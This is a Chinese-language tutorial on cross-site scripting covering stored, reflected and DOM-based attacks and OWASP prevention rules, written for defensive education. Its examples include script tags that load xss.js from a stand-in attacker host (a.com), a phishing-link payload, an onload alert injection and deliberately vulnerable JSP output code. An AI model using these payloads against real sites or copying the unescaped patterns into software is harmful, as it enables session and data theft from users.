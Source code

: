 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 这里]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #7 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>

==工具==
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API

参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)